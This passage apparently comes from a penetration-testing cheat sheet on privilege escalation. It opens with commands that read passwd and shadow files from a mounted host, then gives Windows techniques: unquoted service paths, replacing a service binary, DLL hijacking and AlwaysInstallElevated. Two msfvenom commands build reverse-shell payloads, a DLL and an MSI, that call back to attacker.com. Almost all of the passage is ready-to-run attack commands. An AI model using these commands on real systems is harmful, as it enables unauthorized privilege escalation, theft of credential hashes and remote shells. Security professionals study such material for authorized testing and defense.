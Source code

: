 ```bash
# Access host files
cat /host/etc/passwd
cat /host/etc/shadow
```

## Windows Privilege Escalation

### Windows Service Exploitation

#### Service Binary Path Hijacking
```powershell
# Find services with unquoted service paths
Get-WmiObject -Class win32_service | Where-Object {$_.PathName -notmatch "`"" -and $_.PathName -notmatch "system32"} | Select Name,PathName,State

# Check service permissions
.\accesschk.exe -accepteula -uwcqv "Authenticated Users" *
.\accesschk.exe -accepteula -qwcu "Users" *

# Replace service binary
copy payload.exe "C:\Program Files\Service\service.exe"
net start service
```

#### Service DLL Hijacking
```powershell
# Find services loading DLLs from writable locations
Get-Process | ForEach-Object { $_.Modules } | Where-Object { $_.FileName -like "*\System32\*" }

# Process Monitor (ProcMon) to find missing DLLs
# Filter: Process Name is service.exe, Result is NAME NOT FOUND

# Create malicious DLL
# Use msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f dll -o malicious.dll
copy malicious.dll "C:\Writable\Path\missing.dll"
net restart service
```

### Registry Exploitation

#### AlwaysInstallElevated
```powershell
# Check if AlwaysInstallElevated is enabled
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Create malicious MSI
msfvenom -p windows/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f msi -o malicious.msi

# Install with elevated privileges
msiexec /quiet /qn /i malicious.msi
```
